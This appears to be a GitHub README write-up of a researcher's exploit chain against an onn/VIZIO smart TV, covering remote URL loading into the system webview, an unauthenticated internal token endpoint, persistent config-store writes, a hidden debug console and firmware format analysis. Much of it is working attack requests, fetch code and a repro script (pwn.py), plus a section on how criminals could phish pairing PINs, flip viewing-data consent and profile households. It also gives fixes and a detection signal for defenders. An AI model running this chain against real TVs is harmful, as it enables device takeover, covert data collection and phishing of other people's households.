

# Hacking my own TV: how I got JavaScript to run inside VIZIO OS and found a persistent backdoor in the process

**Target:** onn. 65" 4K (65S4V4, Walmart #16109363845) — internal model `W4K65M-1030`, VIZIO OS 1.8.1767.1, MediaTek MT5586.
**Firmware:** `86.920.9.3-2` (current build at the time).
**What I got:** unauthenticated (network-adjacent) code execution inside the TV's system webview, access to the loopback-only internal API, and persistent write control over the device-wide config store.

**Short version:** the SmartCast launch API will happily load an attacker-supplied URL into the TV's privileged system webview. Once your JavaScript is running there, the TV's own internal services are wide open — including an endpoint that hands out the internal API token to anyone on loopback, and a config store that accepts any key you feel like writing. The chain is short enough that I reproduced it three times end-to-end just to make sure I wasn't imagining it.

**On disclosure:** I did this on my own TV, on my own network. I haven't contacted Vizio at the time of writing. If you're from Vizio or Walmart and want the full request transcripts, open an issue here and I'll send them over and work out an advisory. The code in this repo requires being on the same network as the TV and is here for defensive research, not for anyone to go be a menace.

---

## Contents

1. [Why and how it started](#why-and-how-it-started)
2. [The chain, all at once](#the-chain-all-at-once)
3. [The device and what it exposes](#the-device-and-what-it-exposes)
4. [Pairing: the boring prerequisite](#pairing-the-boring-prerequisite)
5. [Finding the launcher namespace that shouldn't do what it does](#finding-the-launcher-namespace)
6. [Getting my JavaScript to execute on the TV](#getting-my-javascript-to-execute-on-the-tv)
7. [What the webview can see: the loopback map](#what-the-webview-can-see-the-loopback-map)
8. [The file that explains everything: companion-lib.js](#the-file-that-explains-everything)
9. [The token endpoint with no auth](#the-token-endpoint-with-no-auth)
10. [Writing to the config store, and making it stick](#writing-to-the-config-store-and-making-it-stick)
11. [The debug console they shipped to production](#the-debug-console-they-shipped-to-production)
12. [LOKI: the internal UI bus](#loki-the-internal-ui-bus)
13. [Everything an attacker actually gets](#everything-an-attacker-actually-gets)
14. [So what would a criminal do with this?](#so-what-would-a-criminal-do-with-this)
15. [If you're defending this stuff](#if-youre-defending-this-stuff)
16. [Repo map and how to run it](#repo-map-and-how-to-run-it)
17. [Appendix: the OTA firmware format](#appendix-the-ota-firmware-format)
18. [Timeline and loose ends](#timeline-and-loose-ends)

---

## Why and how it started

I bought this TV knowing it was a Vizio in an onn costume — same SmartCast stack, different badge. I wanted root: custom software, kill the ad injection, maybe run something else on it eventually. The usual reason.

The 2021 ViziOwn research was the obvious starting point. Command injection in the `/install` sideload handler, root via a crafted filename, no auth. That technique is genuinely one of the cleanest IoT bugs of its era. I wrote a driver for it (`viziown.sh` in this repo) and fired it at the TV.

Every single request returned a 500. Ten-plus shapes — GET, POST, multipart, HTTP/1.1 and h2, with and without auth, every header trick I know. The route exists; the handler is just broken or deliberately disabled on this build.

That was the moment the project changed shape. If the front door is welded shut, you go look at the windows. Which is how I ended up spending an evening enumerating launcher namespaces over the pairing API, and why you're reading this instead of a boring "I ran the old exploit" post.

---

## The chain, all at once



Four things have to be true for this to work, and unfortunately they all are:

1. `/app/launch` doesn't validate the URL it's told to load for the internal modal app (namespace 4, app 3001).
2. The webview's Chromium treats loopback services as fair game — attacker pages can `fetch()` them, and the static file server even sends `Access-Control-Allow-Origin: *`.
3. `/app/get_auth_token` on the internal API returns the master app token to any loopback caller, no auth required.
4. The config store accepts arbitrary attacker-chosen keys, and config keys are exactly what ViziOS uses for feature flags.

Any one of those alone is a bug. Together they're a full compromise, and the persistence in step 4 is what makes it more than a party trick.

---

## The device and what it exposes

External scan, from a laptop on the same network:

| Port | Service | Auth | Notes |
|---|---|---|---|
| **7345** | **SmartCast control API (SCPL)** — lighttpd + Django under TLS | pairing token in `AUTH` header | Settings, app launch, pairing, updates |
| 7346 | SCPL internal twin | none from loopback | Same API, plaintext. Found later — see below |
| 8008 | Cast (protocol v1) | none | Port 8009 is the TLS castv2 one |
| **8009** | **castv2 receiver** | **none** | I launched YouTube on the TV from my laptop with no interaction. That's just how cast works |
| 8443 | lighttpd TLS | — | 404s |
| 9080 | Netflix NRDP runtime | — | Returns `status=ok` for basically anything |
| 7000 | AirPlay / AirTunes 377.40 | pairing-gated | `/pair-setup` and `/pair-verify` both exist and require proper HAP crypto |
| 56789/56790 | unknown HTTP servers | — | 404 on every path I tried |

The mDNS advertisement was more interesting than the port scan:

```
_viziocast._tcp: did=b691f911-… name=Game Room hp=7346 hsp=7345
                 wp=8005 wsp=8006 wifi=f04fe02d6e20 esn=WEU6Y5AC1904887
```

`hp=7346`, `wp=8005`, `wsp=8006` — ports that weren't in the scan, because they're session-scoped. That record is the first hint that the TV has an internal service fleet hiding behind loopback.

The internal map, once I could see it from inside:

| Service | Address | Auth | What it is |
|---|---|---|---|
| **SCPL REST** | `http://127.0.0.1:7346` | `AUTH: <token>` | The control API without TLS — and with a token handout problem (below) |
| **scfs** | `http://127.0.0.1:12345` | none | Serves the ViziOS web bundles. **Open CORS** |
| **LOKI** | `ws://127.0.0.1:4242` | none observed | UI bundle launcher / config bus |
| SCPL socket | `ws://127.0.0.1:8005/?TOKEN=…` | token in URL | Realtime event bus |
| Tuner | `ws://localhost:9090`, `:9091` | — | ATSC tuner control/events |

None of it is reachable from the LAN. All of it is reachable from a page running in the TV's webview, which — foreshadowing — is exactly where I was about to be.

---

## Pairing: the boring prerequisite

The external API wants an `AUTH` token, and the token comes from the documented SmartCast pairing flow — same thing the Vizio phone app does:

```
PUT https://<TV>:7345/pairing/start
    {"DEVICE_NAME":"<name>","DEVICE_ID":"<id>"}
  → PIN appears on the TV; response has PAIRING_REQ_TOKEN

PUT https://<TV>:7345/pairing/pair
    {"DEVICE_NAME":"<name>","DEVICE_ID":"<id>","CHALLENGE_TYPE":1,
     "RESPONSE_VALUE":"<PIN>","PAIRING_REQ_TOKEN":<token>}
  → {"ITEM":{"AUTH_TOKEN":"…"}}   ← stays valid until factory reset
```

It's a weak gate but not really a vulnerability — someone has to read four digits off the screen. Everything interesting starts after this point, and I want to be clear about that: **the pairing step is not the finding. What you can do once paired is.**

---

## Finding the launcher namespace

`PUT /app/launch` takes this:

```json
{"VALUE":{"MESSAGE":"…","NAME_SPACE":<int>,"APP_ID":"<id>"}}
```

The `NAME_SPACE` field selects the launcher subsystem, and the API doesn't tell you what the namespaces mean. So I brute-forced them, launching each `(namespace, app id)` pair and reading back `/app/current` to see what actually ended up on screen. That little read-back loop is the whole reason this project worked — the API is a state machine and you can just ask it what state it's in.

Some observations from the sweep:

- `NAME_SPACE=1, APP_ID=1..4` → routes to the input selector and similar, or nothing.
- `NAME_SPACE=2` → the app store apps. Numeric IDs from the old API docs get accepted but mostly don't launch anything recognizable.
- `NAME_SPACE=4` → **this is the VIZIO OS internal launcher**, and `MESSAGE` there is a JSON descriptor:

```json
{"app":"home","bundle":"bundles/home"}
```

- And then the one that made me sit up: `NAME_SPACE=1, APP_ID=3` launched something that reported back as:

```json
{"APP_ID":"3001","NAME_SPACE":4,
 "MESSAGE":"http://127.0.0.1:12345/scfs/uml/main.html"}
```

App 3001 is the "UML" modal renderer — the internal app that draws system dialogs on screen. Normally it loads its own local HTML. The `MESSAGE` field is a URL. I tried putting *my* URL in there and the API returned `SUCCESS`.

First test: I pointed it at a page on my laptop with a beacon in it, started an HTTP server, and waited. Nothing. I assumed it silently ignores remote URLs the way the bundle field did earlier (I'd tried `{"app":"pwn","bundle":"http://…"}` and the TV registered the app but never fetched the URL).

Then I tried the direct form — `NAME_SPACE=4`, `APP_ID=3001`, `MESSAGE` = my URL — and the TV fetched my page and started beaconing at me over HTTP. I sat there for a second. The TV was running my JavaScript.

---

## Getting my JavaScript to execute on the TV

The request that does it:

```bash
curl -sk --http1.1 -X PUT \
  -H "AUTH: $PAIR_TOKEN" -H "Content-Type: application/json" \
  -d '{"VALUE":{"MESSAGE":"http://192.168.0.69:8099/agent.html","NAME_SPACE":4,"APP_ID":"3001"}}' \
  https://<TV>:7345/app/launch
```

What comes back from the beacon:

```
192.168.0.116 - - [17/Oct/2026 03:30:47] "GET /b?tag=ua&d=ONN W4K65M-1030 VIZIO SmartCast/1.8.1767.1;
  AppleWebKit/537.36 Chrome/128.0.6613.194 (Conjure/128.1.8)" 200 -
```

Conjure is Vizio's app framework, and it's Chromium 128 underneath. Not a stripped-down embedded browser from 2016 — a currentish Chromium, running my code, inside the app that draws the TV's system dialogs.

A detail that matters: this isn't the sandboxed "web content" surface. App 3001 is the system modal layer — the same one that renders pairing prompts. The page gets its own origin, but it lives in the privileged app lifecycle, and it can see every loopback service the native apps can.

---

## What the webview can see: the loopback map

From my injected page I just started poking at `127.0.0.1`:

- `http://127.0.0.1:12345/scfs/…` — the internal static server answers, and **the CORS headers are wide open**. My page read `/scfs/uml/main.html`, the bundle JS, and `/scfs/manifest.json` cross-origin without a fight.
- `http://127.0.0.1:7346` — the internal SCPL API. Plain HTTP, no TLS. `/state/device/power_mode` returned 200 with real data.
- `ws://127.0.0.1:4242` with subprotocol `loki` — connects.
- `ws://127.0.0.1:8005/?TOKEN=…` — the event bus, token-gated (but see the next section for how the token works out).

The manifest is a nice artifact. It lists every web bundle on the device with versions and sha256s:

```
chromevox 1.1.0-2213.303, cl 6.0.2-2636.9999, conjure, oobe, scal, schk,
sctv, scu, uml, system-ui-app, system-ui-app-lite, wc-vizio-pay 1.5.0, images
```

`system-ui-app` is the actual system UI. `wc-vizio-pay` is the payments flow. That's the neighborhood I was now living in.

---

## The file that explains everything

The reason this whole thing came together so quickly after the webview access is `vizio-companion-lib.js`. It's the JS SDK that ViziOS webapps include to talk to the native side, and it's served unauthenticated at:

```
http://<TV>:12345/scfs/cl/js/vizio-companion-lib.js
```

299,593 bytes, version `6.0.2-2636.9999`. Minified, but it reads like documentation — because it has to include everything a webapp needs:

- The complete internal service table, hardcoded:

```js
Sr = { LOKI: `ws://127.0.0.1:4242`, SCPL: `ws://0.0.0.0:8005`,
       TUNER_CONTROL: `ws://localhost:9090`, TUNER_EVENTS: `ws://localhost:9091` },
wr = { LOCAL: `http://127.0.0.1:12345`, SCPL: `http://127.0.0.1:7346` }
```

- The auth flow, including the endpoint name and the header:

```js
// token derivation
let e = await Hr.scplRequest({ requestOptions:{ path: Wr.uri, retry: Er.TOKEN }})
// Wr = { uri: `app/get_auth_token` }

// request auth
let o = a ? `SESSION` : `AUTH`;
return await Hr.scplRequest({ requestOptions:{ …headers:{ …t.headers, [o]: i }}})
```

- The store API paths: `app/store/get` and `app/store/set`, with the exact request shapes.
- The LOKI command protocol: `{command:"bundle", url:…}`, `{command:"deepLink", target:…}`.
- Every config key name in the system, and all 200-ish methods of the `window.VIZIO` bridge.

I dropped it into my own page with a `<script src>` and `globalThis.VIZIO` came up with the full native API — device info, ESN, DSN, a stable `dhash` tracking ID, WiFi SSID, power control, app launching, config getters, HomeKit payloads, AirPlay settings, the lot. Harvesting the device identity took one page load.

The bridge is not actually restricted to trusted origins, which was a surprise. Any page in that webview can pull this library from loopback and use it. The "trust" is that you're inside the webview at all.

---

## The token endpoint with no auth

Here's the part that genuinely surprised me. From my page, no headers, no token, nothing:

```
GET http://127.0.0.1:7346/app/get_auth_token
→ 200 {"STATUS":{"RESULT":"SUCCESS"},"ITEM":{"VALUE":"<internal-token>"}}
```

The internal API hands out its own token to any loopback caller. The companion lib calls this endpoint before every session, which means the token handling is "ask and receive" — and once you're inside the webview, you're inside the trust boundary that made that seem okay.

With that token, every internal endpoint behaves:

```js
fetch("http://127.0.0.1:7346/app/store/get", {
  method: "PUT",
  headers: {"Content-Type":"application/json", "AUTH": token},
  body: JSON.stringify({VALUE: ["<any key>"]})
})
```

Read any config key. And then I tried the obvious next thing.

---

## Writing to the config store, and making it stick

`PUT /app/store/set` with `{"VALUE":{key: value}}`. I wrote a key I invented, read it back, and it was there. So I wrote a few more:

| What I wrote | Result |
|---|---|
| `{"OMPTestKey":"hello-from-agent"}` | written, read back, **still there from the LAN minutes later** |
| `{"ApplicationFramework:ChromiumSettings:DebugEnabled":"true"}` | accepted (was already true) |
| `{"AppConfigs:CL:ApiTestApp:allowInternalMode":"true"}` | written; unlocks the hidden console |
| `{"ApplicationFramework:ChromiumSettings:RemoteDebuggingPort":9222}` | written; didn't open a port on the running webview — would apply on next spawn |

The persistence check is the important one. I wrote keys from a page that was long gone, then queried the store from my laptop through the *external* API with the pairing token — same values. The store is device-wide state that doesn't care about app lifecycle.

There's no schema check, no key allowlist, no namespace protection. You can write `ApplicationFramework:*` and `AppConfigs:*` keys — the ones ViziOS itself uses to decide what features exist. Vizio's own test keys (`ToadName`, `FrogName`, `NewtName`, `SalamanderName`) are sitting in there as a hint that this store has never been treated as a security boundary.

---

## The debug console they shipped to production

While digging through companion-lib I found `launchApiTestApp()`, and the URL it builds:

```
http://127.0.0.1:12345/scfs/cl/js/apiTestApp.html?clVersion=…&configVersion=…&NAME_SPACE=…&APP_ID=…
```

374,595 bytes of inline Svelte. So I pulled it off the TV the same way I pulled the companion lib (chunked it out through beacons — and yes, I lost a chunk round because *my own beacon helper truncated payloads at 2,800 characters* and I didn't notice for two attempts. Lesson learned).

What's inside:

- 226 cataloged API methods across Legacy and Modular tabs, 314 deeplink IDs.
- **65 `internalOnly` methods** — the ones not meant for partners. Highlights:

| Deeplink | Method | What it does |
|---|---|---|
| 254 | `rebootTv` | power-cycles the TV |
| 86 / 87 | `setPowerMode` / `softPowerCycle` | power state |
| 88–91 | store get/set | the Stage-4 primitives as buttons |
| 6 / 7 | `launchApp` / `launchAmbient` | arbitrary app launch |
| 230 / 54 | `displaySystemMenu` / `displaySidebarMenu` | force system overlays |
| 301 / 103 | `setActivityDataPolicyAccepted` | flip viewing-data consent |
| 132 / 133 | chromevox script getters | accessibility injection |

- And the gate on all of it: `URLSearchParams(window.location.search).has("bd")`. Presence of `?bd` in the URL. That's it. `&deeplink=<ID>` then auto-fires any method on load. No token, no pairing, no developer mode, client-side only.

So the vendor's own API console — the tool a Vizio engineer would use to drive this TV — is one URL parameter away from being a remote control. Combine it with the store flag from the previous section and an attacker gets a full GUI for the internal API, on the victim's screen, driven from the injected page.

---

## LOKI: the internal UI bus

`ws://127.0.0.1:4242`, subprotocol `loki`. This is how the system launches its internal UI bundles. The wire format from the companion lib:

```json
{"id":1, "command":"bundle",   "url":"bundles/account-modal", "parameters":{"step":"linking"}}
{"id":2, "command":"deepLink", "target":"/menu/bluetooth/gamepads"}
```

I fired both. The bundle launcher's error messages are chatty in the best way:

```
{"details":"Step is missing required attribute 'var'","event":"error",
 "file":"/app/external/bundles/account-modal/templates/BundleRoot.xml","line":42}

{"code":"BNDLZP","details":"expected 3f7836974d9b645e2a1fd292bb87d1116199791a got loki-pwn for bundle loki-pwn",
 "error":"Invalid sha1sum! Make sure the zipped bundle's filename matches the sha1sum",
 "file":"/platform-manifest/apps/loki/parts/loki/src/src/bundles.cpp","line":1137}
```

What that tells you: bundles are ZIPs containing `templates/BundleRoot.xml` (an XML step-language for UI), they live under `/app/external/bundles/`, and integrity is a **sha1 filename check** — not signature verification at this layer. Remote URLs are rejected (`BNDLDL` download failure when I pointed it at my server), so planting one means getting a file onto a writable path with the right name.

I mapped it and stopped there. The store-level persistence is already the operational primitive; a persistent UI implant is the obvious next step for somebody with more patience than me.

---

## Everything an attacker actually gets

| # | Primitive | How | Persists? |
|---|---|---|---|
| 1 | JS execution in the system webview | `PUT /app/launch` NS=4/3001 | per-launch |
| 2 | Native bridge, ~200 methods | include companion lib in the page | per-launch |
| 3 | Loopback service reachability | plain `fetch()` from attacker page | per-launch |
| 4 | Internal API token | `GET 127.0.0.1:7346/app/get_auth_token` | token TTL ~5 min |
| 5 | Read any config key | `PUT /app/store/get` | — |
| 6 | **Write any config key** | `PUT /app/store/set` | **device-wide, survives app lifecycle** |
| 7 | Hidden API console unlock | store flag + `?bd` URL param | until flag cleared |
| 8 | LOKI bundle/deeplink launch | ws :4242, `loki` subprotocol | per-launch |
| 9 | Device identity harvest | bridge getters (ESN/DSN/dhash/MAC/SSID) | — |
| 10 | Silent cast takeover | castv2 :8009, no auth | — |

Everything in this table I ran myself and watched the results come back. `pwn.py` in the repo reproduces 1, 3, 4, 5, 6 and restores the TV home screen when it's done.

---

## So what would a criminal do with this?

I'm writing this section because the previous section is, on its own, a shopping list. Here's the honest threat model — all of it requires being on the same network as the TV, which in practice means hotel/bar/office/guest Wi-Fi, a shared Airbnb, or a compromised device on the LAN.

**Display takeover, no pairing needed.** Cast port 8009 has no auth, by design. Anyone on the network can push content to the screen. That's already a phishing surface — a fake "your bill is due, scan this QR" screen on a hotel TV is not a stretch. Now add the launch API and you can render a *system-dialog-looking* page instead of a cast session, which is a meaningfully better phishing surface.

**Persistent config implant.** One pairing (or a reused token) and the store write is permanent. You can re-enable the debug console, flip the viewing-data consent flags on for silent data collection, point URL-bearing settings at your own infrastructure, and pre-stage the Chromium debug port for the next webview spawn. That last one didn't fully activate in my testing — the port setting is written but the running webview ignores it; a restart would apply it. I'm noting it because it's one restart away from CDP, and CDP means the attacker's tooling talks to the TV like a browser.

**Profiling.** The bridge hands out ESN, DSN, a stable device hash (`dhash`), MAC, SSID, timezone, model, firmware. That's a household fingerprint that survives network changes, and `/system/dynamic/iptolocation` on the external API leaks location. For an adtech company this is inventory. For a stalker it's worse.

**Pairing token theft.** The UML modal is the layer that shows the pairing PIN. A page running in that layer can render a convincing "enter your PIN to finish setup" prompt. Four digits later the attacker has a token that works until a factory reset. This is the one that bothered me most while writing it up, because it turns a physical-presence gate into a social-engineering one.

**LAN pivot.** The TV will fetch anything you tell it to, from inside a network segment security teams rarely instrument. It's an always-on Linux box with a browser and a direct line to your "trusted" VLAN, if you put it there. That's a useful staging point.

None of these are hypothetical exploits that would require chaining five more bugs — each one is a direct consequence of the primitives in the table above.

---

## If you're defending this stuff

Things I'd fix, in order of "this kills the chain":

1. **Allowlist `MESSAGE` for NS=4/3001 to the local `127.0.0.1:12345/scfs/` origin.** That one change ends this write-up at page one. Anything else is defense in depth.
2. **Put auth in front of `/app/get_auth_token`**, or at least stop treating "loopback" as an identity. Once arbitrary pages execute inside the webview, loopback is just "where the browser is".
3. **Schema and namespace-guard the config store.** Unknown keys should be rejected. `ApplicationFramework:*` and `AppConfigs:*` should be root-only, not "whatever the webview says".
4. **Fix the CORS on :12345.** `Access-Control-Allow-Origin: *` on an internal server that serves the system UI is not doing what it says on the tin.
5. **Gate the API test app behind something physical** — a serial console, a hardware switch, anything that isn't a URL parameter and a store flag.
6. **Sign LOKI bundles**, or at least verify the sha256s that the manifest already ships. Right now it checks a sha1 in the filename, which a security review should have caught.
7. **Show a user-visible origin indicator** when `app/launch` loads a non-stock URL.

For owners, until there's a patch: put the TV on an isolated VLAN, and if you care about the pairing token, factory-reset it before selling or moving it — it survives a simple reboot. A router rule blocking the TV from making HTTP calls to LAN addresses other than your media servers also breaks the beacon path in practice.

And from a detection standpoint, the cleanest signal is exactly what I had to do to make this work: a `PUT /app/launch` with `NAME_SPACE=4` whose `MESSAGE` is a non-loopback URL. The stock system UI never does that. A TV asking for a LAN URL on an odd port right after an app-launch call is not normal SmartCast behavior.

---

## Repo map and how to run it

```text
.
├── README.md                  ← this writeup
├── findings.md                ← raw session log: every request, response, and dead end
├── pwn.py                     ← one-shot repro: pair (or reuse token) → launch →
│                                JS-exec proof → internal token → store dump →
│                                store write → restore home. Ran it three times.
├── tvapi.sh                   ← curl helper for the external API
├── recon.py                   ← discovery + port/API mapper (the 200-JSON vs 500-HTML trick)
├── castv2_enum.py             ← minimal castv2 client, hand-rolled protobuf, no deps
├── cast_probe.py              ← cast receiver LAUNCH prober
├── viziown.sh                 ← the 2021 /install technique, kept for history.
│                                Dead on this build — see above.
├── payloads/README.md         ← busybox isn't vendored (GPL); get your own if you need it
├── docs/README.md             ← links to exiva's SmartCast API reference (not vendored)
├── extracted/                 ← ViziOS internals pulled off the device
│   ├── companion-lib.js       ← the VIZIO JS bridge/transport SDK (299,593 B)
│   ├── apiTestApp.js          ← the hidden API console, full source (323,411 B)
│   └── uml-bundle.js          ← the 3001 modal app bundle (18,173 B)
└── firmware/*.utv             ← official OTA image — format reversed in the appendix
                                 (too big for git; re-download from the Vizio CDN)
```

Running it:

```bash
# find the TV (mDNS: _viziocast._tcp, or your router's client list)
python3 recon.py [TV_IP]

# pair once (PIN appears on screen), or reuse a token
export TV_IP=192.168.0.116
export MY_IP=192.168.0.69       # this machine, reachable by the TV
python3 pwn.py --pair           # prints the token; export PAIR_TOKEN=… to reuse

# run the chain any time after that
PAIR_TOKEN=… python3 pwn.py
# [TV] js = exec-ok
# [TV] token = Q…               ← internal app token, no auth needed
# [TV] store.all = {…}
# [TV] write = SUCCESS / verify = readback
# (home screen restored)
```

Environment knobs: `TV_IP`, `MY_IP`, `PORT`, `PAIR_TOKEN`. The keys it reads/writes are the two constants at the top of `__main__`.

Artifact hashes, so you can check what you pulled matches what I pulled:

| File | Size | sha256 (first 16) |
|---|---|---|
| `extracted/companion-lib.js` | 299,593 | `f946f440d9c3baf5` |
| `extracted/apiTestApp.js` | 323,471 | `6fcc80867310a0fb` |
| `extracted/uml-bundle.js` | 18,173 | `6e9fac2c686f493d` |
| `firmware/mg1359-86.920.9.3-2F.utv` | 533,808,696 | `ea0b66768ee6ba8a` |

---

## Appendix: the OTA firmware format

I grabbed the official `86.920.9.3-2F` image off Vizio's CDN while poking at the update path, mostly to see whether the update channel was a shortcut to custom firmware. It isn't, but the container is interesting enough to document.

```
offset 0   : u32 BE  jwt_len (= 7348)
offset 4   : JWT, RS512, base64url header.payload.signature
offset 4+L : AES-encrypted payload, chunked:
             101 × (5,242,880 B data + 32 B header) + 4,267,232 B tail
```

The JWT claims:

| Claim | Value |
|---|---|
| `sub` | `86.920.9.3-2F` |
| `aud` | six upgradeable-from versions |
| `blk` | 5242880 (the AES chunk size) |
| `siz` / `upi` | 533799712 / 93073 |
| `upf` | `mt5586_upgrade_image_ota.pkg` |
| `hsh` | SHA-256 of the plaintext payload |
| `key` | 256 bytes — an **RSA-2048-wrapped AES content key** |
| `crt` / `int` | Qterics leaf + intermediate, CN `updates.support.supportview.com`, chain to Qterics Production CA-1 ← Root CA, valid to 2038 |

The signature verifies against the embedded chain (`openssl dgst -sha512 -verify`, for the record). The payload has no cleartext filesystem signatures anywhere — `binwalk` across the whole 533 MB gave nothing but noise — because it's AES-encrypted with the key from the JWT.

Decrypting it requires unwrapping `key` with the device-side RSA private half, which lives in the updater on the TV. That's the piece I don't have. Get root or a console once — the whole point of the hardware path — and you can pull it, which makes custom firmware a packaging exercise rather than a research project. The container, the signing chain, and the chunking are all fully mapped above; that's as far as it goes without the device key.

---

## Timeline and loose ends

| When | What |
|---|---|
| Session 1 | Recon, port map, pairing, API fingerprinting. ViziOwn `/install` confirmed dead on this build |
| Session 2 | Firmware image downloaded; `.utv` format reversed and signature verified. MITM rig (arpspoof + DNS) mapped the cloud endpoints. Confirmed the 2021 technique is gone |
| Session 3 | Namespace sweep → the 3001 URL-launch chain. Companion lib extracted, internal services mapped, tokenless token endpoint, persistent store writes, hidden console unlocked, LOKI protocol mapped. End-to-end proof ×3 |

Loose ends I didn't close, in case anyone wants to pick them up:

- **Chromium remote debugging.** The `RemoteDebuggingPort` store key is written; CDP didn't come up on the running webview. A webview restart should apply it. If someone confirms that, it's a much more comfortable foothold for actual tooling.
- **LOKI bundle planting.** Writable path + correct sha1 filename + the XML format from the error messages. The pieces are all documented above; I stopped because the store write was already enough.
- **AirPlay.** Port 7000 pairs properly. I didn't go memory-corruption hunting there, but the 2025 AirPlay research made it look like fertile ground.
- **The `.utv` key.** Needs the device-side RSA half. Root, or a flash dump with a clip, and it's done.

All of this was done with open tooling and a lot of `curl`: nmap, openssl, binwalk, mitmproxy/dnsmasq/arpspoof, python3, and a hand-rolled castv2 client. No commercial tooling, no hardware, one very patient TV.

Research and tooling by [@vindeckyy](https://github.com/vindeckyy), October 2026.
